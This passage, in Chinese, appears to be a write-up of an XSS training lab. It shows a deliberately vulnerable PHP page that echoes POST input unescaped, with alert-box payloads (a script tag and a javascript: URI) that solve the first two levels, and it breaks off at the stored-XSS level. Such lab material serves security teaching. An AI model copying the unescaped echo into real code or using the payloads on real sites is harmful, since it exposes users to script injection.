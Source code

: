 ### pass-1

#### 考点：理解XSS的原理

```php+HTML
<!DOCTYPE html>
<html>
<head>
    <title>反射型XSS-html</title>
    <meta charset="utf-8" />
</head>
<body>
    <form method="post" action="">
        <input type="input" name="xss" value="" />  <input type="submit" name="submit" value="xss" />
    </form>
    <?php
        echo isset($_POST['xss']) ? $_POST['xss'] : '';
        highlight_file(__FILE__);
     ?>
</body>
</html>
```

#### 思路：

由于没有过滤，可以直接注入XSS

**payload：**

```
<script>alert(/xss/)</script>
```



### pass-2

#### 考点：javascript:伪类

#### 思路：

提交后，出现链接，于是用javascript:

**payload：**

```
javascript:alert(/xss/);
```



### pass-3

#### 考点：XSS存储型（留言板）

#### 思路：
